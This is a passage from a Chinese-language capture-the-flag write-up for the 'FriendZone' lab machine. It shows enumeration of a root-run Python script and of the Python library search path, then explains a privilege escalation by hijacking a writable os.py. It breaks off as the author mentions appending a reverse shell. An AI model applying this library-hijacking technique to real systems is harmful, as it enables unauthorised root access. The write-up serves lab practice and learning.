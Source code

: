 ![](img/5ddc7e683757cd1df3a4eac51c7a2a15.png)

server_admin 目录非常突出，因为我可以从那里读取文件，所以我读取了 reporter.py:

```
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/pythonimport osto_address = "[admin1@friendzone.com](mailto:admin1@friendzone.com)"
from_address = "[admin2@friendzone.com](mailto:admin2@friendzone.com)"print "[+] Trying to send email to %s"%to_address#command = ''' mailsend -to [admin2@friendzone.com](mailto:admin2@friendzone.com) -from [admin1@friendzone.com](mailto:admin1@friendzone.com) -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''#os.system(command)# I need to edit the script later
# Sam ~ python developer
```

所以 python 脚本还没有完成，但是它调用了 os 库，就像我们之前看到的那样，它以 root 身份运行。现在，我在网上查了一下我如何才能做到这一点，发现这些很有帮助:

## 来谈谈来自 SANS 的 Mark Baggett 的黑暗面(这家伙的 Python 太棒了)

[https://www . sans . org/cyber-security-summit/archives/file/summit-archive-1542133788 . pdf](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542133788.pdf)

## 通过从光栅化劫持 Python 库来提升权限

[](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) [## 通过 Python 库劫持| rastating.github.io 提升权限

### 今天在调试一个 Python 脚本时，我发现我无法执行它，堆栈跟踪指向…

rastating.github.io](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) 

然后，我检查了查找库的搜索过程的“优先级”:

```
friend@FriendZone:/tmp$ python -c 'import sys; print "\n".join(sys.path)'/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages
```

即使我们不能在脚本运行的当前目录上写入(这是优先级，并且那里没有 os.py)，我们也可以在/usr/lib/python2.7 上写入(第二个选项)，并且我们可以在 os.py 上进行更改，因为它将被运行的 reporter.py 调用。

我在 os.py 脚本的底部添加了一个反向 shell 脚本:
